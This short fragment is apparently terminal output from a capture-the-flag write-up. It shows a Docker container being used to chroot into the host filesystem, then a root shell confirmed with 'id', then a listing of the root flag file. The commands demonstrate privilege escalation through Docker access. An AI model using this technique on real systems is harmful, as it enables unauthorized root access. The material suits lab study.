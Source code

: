 ```bash
d76e9ebac9d7        0601ea177088                        "docker-entrypoint..."   8 months ago        Exited (130) 8 months ago                                                                                                          condescending_babbage

bash-5.0# docker exec -it 8f3978eb999f chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# ls -la /root/root.txt
-r-------- 1 root root 33 Jul 12  2021 /root/root.txt
```
